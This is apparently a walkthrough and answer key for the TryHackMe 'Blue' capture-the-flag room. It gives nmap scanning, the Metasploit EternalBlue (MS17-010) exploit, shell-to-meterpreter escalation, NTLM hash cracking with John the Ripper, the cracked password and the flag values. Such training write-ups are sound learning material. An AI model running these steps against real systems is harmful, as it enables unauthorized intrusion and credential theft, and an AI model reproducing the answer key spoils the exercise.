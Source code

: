 #### Link to room: https://tryhackme.com/room/blue

#### [Task 1] Recon
   1. No answer needed
> Hint:
>
> Type the following command into terminal: 
>
> nmap -sC -sV \<GIVEN-IP-ADDRESS\>
>
> The output should look something like this: 
```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2020-05-09T14:44:17+00:00; -8s from scanner time.
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```
   2. 3
> Hint: 
>
> Look at the port numbers and count the number that are below 1000 
   3. MS17-010
> Hint
>
> From the output you can see the version "Windows 7 Professional 7601"
>
> If you search on google for "Windows 7 Professional 7601 exploit", you will see the code for this vulnerability

#### [Task 2] Gain Access
   1. No answer needed
   2. exploit/windows/smb/ms17_010_eternalblue
> Hint: 
>
> If you type "search ms17" into the metasploit (msf5 >) console
>
> Look for the output that is an exploit - starts with exploit/ 
   3. RHOSTS
> Hint: 
>
> Type the following command into the metasploit console: 
>
> use exploit/windows/smb/ms17_010_eternalblue
>
> Then type "show options"
>
> If we were then to type "run"
>
> Then we get an error like "Exploit failed: The following options failed to validate: RHOSTS."
>
> Then type "set RHOSTS \<GIVEN-IP-ADDRESS\>"
   4. No answer needed
   5. No answer needed


#### [Task 3] Escalate
   1. post/multi/manage/shell_to_meterpreter
> Hint: 
>
> If you search on google you should be able to find something that details "shell_to_meterpreter"
   2. SESSION 
> Hint: 
>
> If you type the commnad "use post/multi/manage/shell_to_meterpreter"
>
> Then type "show options", you should see a blank space next to the word "SESSION"
   3. No answer needed
> Hint:
>
> Type the command "sessions -l"
>
> Whichever ID number is next to the "x64/windows", use that number
>
> Type the command "set session \<ID-NUMBER\>"
   4. No answer needed 
   5. No answer needed 
> Hint: 
>
> Show all the sessions with the commnand "sessions -l"
>
> You should be able to see something like "meterpreter x86/windows"
>
> Type "sessions \<ID-NUMBER\>"
   6. No answer needed 
   7. No answer needed 
   8. No answer needed 

#### [Task 4] Cracking
   1. Jon
   2. alqfna22
> Hint: 
>
> The hash is "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::"
>
> In the terminal if you type "echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt" 
>
> You will have a text file that contains the hash
>
> After entering the hash into this (website)[https://www.tunnelsup.com/hash-analyzer/], we see it might be NTLM.
>
> If you type the following command into terminal: 
>
> john --list=formats
>
> You should be able to see all the formats of hashes that the tool John the ripper will be able to crack
>
> If you type the following command into terminal: 
>
> john hash.txt --format=NT -wordlist=/usr/share/wordlists/rockyou.txt


#### [Task 5] Find flags! 
   1. {access_the_machine}
> Hint: 
>
> In the meterpreter shell, if you type "cd .." till you are back into the C:\ directory 
>
> Then you should be able to see the flag1.txt
   2. {sam_database_elevated_access} 
> Hint: 
>
> Found in this directory "C:\Windows\System32\config"
   3. {admin_documents_can_be_valuable}
> Hint: 
>
> Found in this directory "C:\Users\Jon\Documents"
